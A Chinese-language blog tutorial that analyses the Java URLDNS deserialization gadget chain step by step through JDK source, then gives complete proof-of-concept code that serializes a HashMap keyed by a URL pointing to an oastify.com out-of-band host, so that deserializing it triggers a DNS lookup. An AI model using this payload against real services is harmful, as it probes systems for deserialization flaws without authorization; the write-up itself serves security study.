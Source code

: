 # URLDNS链分析


<!--more-->

# URLDNS链分析

## 1、URLDNS原理

1、 java.util.HashMap重写了readObject方法：

 在反序列化时会调用 hash 函数计算 key 的 hashCode

2、java.net.URL对象的 hashCode 在计算时会调用 getHostAddress 方法

3、getHostAddress方法从而解析域名发出 DNS 请求

**利用链：**

```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

接下来进行逐一分析：

这个链反序列化的对象是`HashMap`的对象。反序列化`HashMap`的时候会用到这个类自定义的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

<img src="https://s1.vika.cn/space/2023/04/10/6addeb48db1c4067b40ff3503667cf21" style="zoom:80%;" />

注意到最后的`putVal(hash(key), key, value, false, false);`，调用了`hash`函数计算哈希值

跟进hash函数：

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

这里调用了键的`hashCode`函数。我们该链中是将其设置成URL类，查看URL类的hashCode函数

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

如果`hashCode==-1`的话，就会重新计算`hashCode`，调用`handler`的`hashCode()`。看一下`handler`：

```java
    transient URLStreamHandler handler;
```

`handler`属性是`URLStreamHandler`类的对象，所以继续跟进`URLStreamHandler`类的`hashCode()`方法：

<img src="https://s1.vika.cn/space/2023/04/10/c040765814824f8f941c1c7f6a09bfce" style="zoom:80%;" />

继续跟进`getHostAddress()`：

<img src="https://s1.vika.cn/space/2023/04/10/37225da516f54e3e9ca869e978687e04" style="zoom: 80%;" />

这⾥ `InetAddress.getByName(host) `的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次 DNS查询。

## 2、利用

一个很奇妙的点就在于，`HashMap`里面最常用的`put`方法里面居然就有：

```
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

理论来说这样使用一次put就会触发一次URLDNS

**那个`key`，即`URL`类的对象的`hashCode`属性值为-1**

考虑到最开始调用`put()`，虽然没有触发`URLDNS`，但是同样调用了`hash()`，导致了传入的`URL`类对象的哈希值被计算了一次，`hashCode`不再是`-1`了，因此还需要再修改它的`hashCode`属性。但是注意这个属性是`private`：

```java
    private int hashCode = -1;
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

因此只能用反射：

```java
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
```

这样就能修改hashCode为-1

故整体代码如下：

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;


public class URLDNS {
    public static void main(String[] args) throws Exception {

        //漏洞出发点 hashmap，实例化出来
        HashMap<URL, String> hashMap = new HashMap<URL, String>();

        //URL对象传入自己测试的dnslog
        URL url = new URL("http://1tvcx6l0a7bgc6ztu31ydi4zeqki88wx.oastify.com");

        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");

        //使用内部方法
        f.setAccessible(true);

        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");

        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);

        //序列化成对象，输出出来
        ObjectOutputStream objos = new ObjectOutputStream(new FileOutputStream("./out.bin"));
        objos.writeObject(hashMap);
    }
}
```

运行序列化过程，查看是否有DNS解析记录发现没有，因为在put之前修改了hashCode的值为非-1这样就不会参与解析，避免跟反序列化构成中的解析混淆

我们执行反序列化过程

```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        //读取目标
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("./out.bin"));
        //反序列化
        ois.readObject();
    }
}
```

看到解析记录

<img src="https://s1.vika.cn/space/2023/04/10/e680d812cf7c47aaa296c63b8ab2a977" style="zoom:80%;" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/a0fd0c84/  

